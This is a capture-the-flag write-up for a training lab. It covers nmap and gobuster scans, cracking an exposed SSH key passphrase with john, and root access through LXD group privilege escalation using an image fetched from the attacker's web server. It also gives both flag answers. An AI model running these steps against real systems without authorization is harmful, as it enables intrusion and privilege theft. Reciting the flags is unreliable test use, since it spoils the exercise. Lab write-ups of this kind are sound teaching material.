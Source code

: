 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## Task 1 Boot2Root
### What is the user flag?
- Let's begin by performing an `nmap` scan against the target.
```
$ nmap -sC -sV 10.10.223.2
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-16 09:38 IST
Nmap scan report for 10.10.223.2
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.40 seconds
```
- There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

- Let's visit the website through the browser.

![2](https://github.com/Knign/Write-ups/assets/110326359/7595fb56-6c5a-4462-959a-4b9bdda22924)

- There's really nothing of importance here.
- Using `CTRL+U` we can view the source page.

![3](https://github.com/Knign/Write-ups/assets/110326359/9d7c738e-1f18-4b71-8bf5-9a3914f1c58b)

- So we know that there is a user called `john`.
- We can use `gobuster` to find other web pages that might be useful.
```
$ gobuster dir -u http://10.10.223.2 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.223.2/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.223.2/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- The `/secret` page seems interesting, let's go there.

![4](https://github.com/Knign/Write-ups/assets/110326359/5337a972-eaeb-4559-bcf1-f580570b881c)

- Let's get the `secretKey`.

![5](https://github.com/Knign/Write-ups/assets/110326359/0cf52dc6-98b2-4a7c-9d88-559dca31c30f)

- It seems to be the private key of the `john` user we saw before.
- We can use `ssh2john` to create a hash file.
```
$ ssh2john secretKey > secretKey_hash 
```
- Now we can use `john` to crack the hashes.
```
$ john secretKey_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2023-12-16 10:01) 4.347g/s 2295p/s 2295c/s 2295C/s stupid..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Let's change the permissions of the `secretKey`.
```
$ chmod 600 secretKey
$ ls -l
total 8
-rw------- 1 kunal kunal 1766 Dec 16 10:03 secretKey
-rw-r--r-- 1 kunal kunal 2461 Dec 16 10:00 secretKey_hash
```
- Now we are all set to login through SSH as the `john` user.
```
$ ssh -i secretKey john@10.10.223.2
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 04:34:22 UTC 2023

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.223.2
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
- We can now read the user flag.
```
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
### Answer
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

&nbsp;

### What is the root flag?
- Let's check what groups `john` is a part of.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
- On searching for a while we can find the following article that explains how to escalate the root privilege by exploiting the features of LXD.
#### Commands to be run on the attacker machine:
```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo ./build-alpine
$ python3 -m http.server
```
#### Commands to be run on the target machine:
```
john@exploitable:/tmp$ wget http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
--2023-12-16 05:12:53--  http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3646460 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’

alpine-v3.19-x86_64-20231216_1041.tar.gz                   100%[========================================================================================================================================>]   3.48M   490KB/s    in 8.7s    

2023-12-16 05:13:02 (410 KB/s) - ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’ saved [3646460/3646460]

john@exploitable:/tmp$ lxc image import alpine-v3.19-x86_64-20231216_1041.tar.gz --alias myimage
Image imported with fingerprint: 8d217b63453d877763142d3cfdf5bb25ad94c2ef132da82eab9c314fc5f74741
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 8d217b63453d | no     | alpine v3.19 (20231216_10:41) | x86_64 | 3.48MB | Dec 16, 2023 at 5:16am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```
- We can now locate the `root.txt` file using the `find` command.
```
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```
- Let's get the root flag.
```
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
### Answer
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
